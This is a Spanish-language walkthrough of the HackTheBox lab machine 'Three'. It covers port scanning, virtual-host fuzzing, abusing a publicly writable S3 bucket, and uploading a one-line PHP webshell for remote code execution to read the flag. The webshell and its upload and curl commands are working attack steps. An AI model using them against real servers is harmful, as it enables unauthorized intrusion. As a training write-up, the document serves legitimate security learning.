









# HTB: Three (Starting Point)

**Autor:** Alejandro Torres | Ingeniero de Sistemas de Telecomunicación

**Plataforma:** HackTheBox

**Dificultad:** Very Easy

---

## 1. Reconocimiento y Enumeración Web

El proceso de auditoría comienza con una fase de reconocimiento activo para cartografiar la superficie de exposición del objetivo. Para ello, ejecutamos un escaneo de puertos y servicios utilizando Nmap, incorporando los *scripts* básicos de reconocimiento (`-sC`) y detección de versiones (`-sV`).

```bash
sudo nmap -sV -sC -Pn 10.129.172.40
```



Los resultados del escaneo revelan dos puertos TCP abiertos: el puerto 22 (ejecutando OpenSSH 7.6p1) y el puerto 80 (ejecutando Apache httpd 2.4.29). Al analizar la cabecera HTTP del puerto 80, identificamos el título "The Toppers". Al inspeccionar la página web subyacente, identificamos una dirección de correo de contacto que expone el dominio interno `thetoppers.htb`.

Al tratarse de un entorno de laboratorio aislado que carece de resolución DNS pública, el sistema operativo local no es capaz de enrutar este nombre de dominio hacia la IP objetivo. Para solucionar esto, editamos el archivo de resolución estática `/etc/hosts`.

```bash
cat /etc/hosts | grep thetoppers
```



Validamos la correcta configuración de la resolución de nombres enviando una traza ICMP (ping) hacia el dominio.

```bash
ping -c 1 thetoppers.htb
```



Una vez establecida la comunicación web estándar, procedemos a realizar un ataque de *fuzzing* de subdominios. Es muy común en infraestructuras web modernas la configuración de múltiples servidores virtuales (*Virtual Hosts*) bajo una misma dirección IP. Para descubrir posibles subdominios ocultos, empleamos **Gobuster** en modo `vhost`.

```bash
gobuster vhost -u http://thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```



La herramienta identifica de forma exitosa el subdominio `s3.thetoppers.htb`, devolviendo un código de estado distintivo. La nomenclatura `s3` es un fuerte indicador del uso de un entorno de almacenamiento basado en el estándar Amazon Simple Storage Service (S3). Para interactuar con él, actualizamos nuevamente el archivo `/etc/hosts`.



## 2. Explotación (S3 Misconfiguration y RCE)

Para interactuar con el servicio en la nube simulado, instalamos y utilizamos la herramienta de línea de comandos oficial `awscli`. Como este entorno local carece de validación estricta de identidades en IAM (Identity and Access Management), podemos configurar credenciales ficticias ("temp") mediante el asistente de configuración para poder emitir los comandos al servidor.

```bash
aws configure
```



Con las credenciales cargadas, emitimos una solicitud para listar (`ls`) el contenido del bucket apuntando al *endpoint* de nuestro objetivo.

```bash
aws --endpoint-url http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```



Descubrimos que el bucket contiene el archivo `index.php`. Este hallazgo es crítico, ya que confirma dos hechos: primero, que el bucket está directamente enlazado con la raíz del servidor web; y segundo, que el servidor backend tiene habilitada la interpretación de código PHP.

Aprovechando una falla en las políticas de control de acceso del bucket S3 (permisos de escritura públicos), desarrollamos localmente una *webshell* muy básica en PHP que captura un parámetro por GET (`cmd`) y lo pasa a la función `system()` para interactuar directamente con el sistema operativo anfitrión.

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws --endpoint-url http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Copiamos nuestra carga útil al bucket y validamos la Ejecución Remota de Código (RCE) emitiendo una petición con `curl` ejecutando el comando `whoami`.



La respuesta del servidor es `www-data`, confirmando el éxito de la intrusión y el compromiso del sistema con los privilegios del servicio web.

## 3. Post-Explotación y Extracción de la Flag

Finalmente, una vez consolidados en el sistema mediante la *webshell*, iniciamos la fase de post-explotación para localizar los artefactos objetivo. Interactuando remotamente, ordenamos al sistema leer el archivo de la bandera ubicado habitualmente en la raíz de despliegues web o directorios de usuario.

```bash
curl http://thetoppers.htb/shell.php?cmd=cat+/var/www/flag.txt
```



La exfiltración del *hash* de la bandera es exitosa, concluyendo de esta manera el compromiso total de la máquina objetivo.

---

## Anexo A: Conceptos Clave de la Máquina

Durante la auditoría de esta máquina, se han abordado las siguientes vulnerabilidades y metodologías operativas:

- **Virtual Host Fuzzing:** Técnica de reconocimiento que consiste en enviar múltiples peticiones HTTP manipulando la cabecera `Host` para forzar a un servidor web a revelar subdominios internos no listados públicamente en servidores DNS.
- **S3 Bucket Misconfiguration:** Vulnerabilidad de infraestructura originada por políticas de acceso permisivas (ACLs mal configuradas) en buckets de almacenamiento en la nube, lo que permite a usuarios no autenticados listar, descargar o incluso cargar archivos arbitrarios en el servidor.
- **Webshell Upload & RCE:** Al combinar la capacidad de subir archivos (vía S3) con la ejecución de lenguajes de servidor (PHP), se logra materializar una Ejecución Remota de Código (RCE), permitiendo el control del sistema operativo subyacente.

## Anexo B: Leyenda de Comandos y Referencia Rápida

| Comando / Herramienta | Sintaxis de Ejemplo | Descripción y Utilidad |
| --- | --- | --- |
| **Nmap** | `sudo nmap -sV -sC -Pn [IP]` | Ejecuta un escaneo profundo obviando el ping de descubrimiento (`-Pn`), ejecutando scripts básicos (`-sC`) e identificando las versiones de los servicios (`-sV`). |
| **Ping** | `ping -c 1 [dominio]` | Comando de diagnóstico de red utilizado para comprobar si el dominio resuelve correctamente a la IP configurada mediante el envío de 1 paquete ICMP (`-c 1`). |
| **Gobuster (vhost)** | `gobuster vhost -u [URL] -w [wordlist] --append-domain` | Utilizado para descubrir subdominios o *Virtual Hosts* que comparten una misma IP, probando sistemáticamente combinaciones basadas en un diccionario. |
| **AWS CLI (Configure)** | `aws configure` | Asistente inicial para establecer las variables de entorno, claves de acceso y región de la interfaz de línea de comandos de AWS. |
| **AWS CLI (S3)** | `aws --endpoint-url [URL] s3 ls s3://[bucket]` | Permite interactuar con buckets S3 (listar contenido con `ls` o copiar archivos con `cp`). El flag `--endpoint-url` redirige las peticiones hacia el entorno objetivo en lugar de a los servidores oficiales de Amazon. |